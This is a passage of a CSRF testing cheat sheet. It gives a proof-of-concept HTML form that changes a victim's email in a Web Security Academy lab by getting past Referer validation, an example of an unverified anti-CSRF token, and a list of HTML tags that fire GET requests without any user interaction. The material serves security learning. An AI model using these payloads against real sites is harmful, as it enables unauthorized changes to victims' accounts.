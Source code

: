 ***

### CSRF with broken Referer validation
#### Test 
- Does the website seems to accept any Referer header as long as it contains the expected domain somewhere in the string?
#### POC
```html
<form method="POST" action="https://acc21f351e145baf809bc06c00b30072.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="sasdasdasd@myemail.com">
    </form>
<script>
    history.pushState("", "", "/?acc21f351e145baf809bc06c00b30072.web-security-academy.net");
       document.forms[0].submit();
</script>
```

#### CSRF with Unverified Anti-CSRF Token
Another possible scenario is when the application implements strong Anti-CSRF tokens but lacks the verification server-side. This may seem unlikely, but it has occurred!
```html
<form action="change.php" >
<input type="hidden" name="anti_csrf" value="bgoDZVGis4bdsh672388293OrttIvgV">
<input type="hidden" name="old" value="myC00Lemail@victim.site">
<input type="email" name="new" placeholder="your new email" required>
<input type="submit" value="Confirm">
</form>
```

#### Bruteforcable CSRF tokens
Some applications generates anti-CSRF tokens with an extremely poor level of randomness, therefore, requiring only a few attempts to brute force the mechanism


## Payloads
### GET Requests
#### No interaction needed to trigger
via HTML tags
```html
<iframe src=URL>
<script src=URL />
<input type="image" src=URL alt="">
<embed src=URL>
<audio src=URL>
<video src=URL>
<source src=URL >
<video poster=URL>
<link rel="stylesheet" href=URL>
<object data=URL>
<body background=URL>
<div style="background:url(URL)">
<style>body { background:url(URL) } </style>
 
```
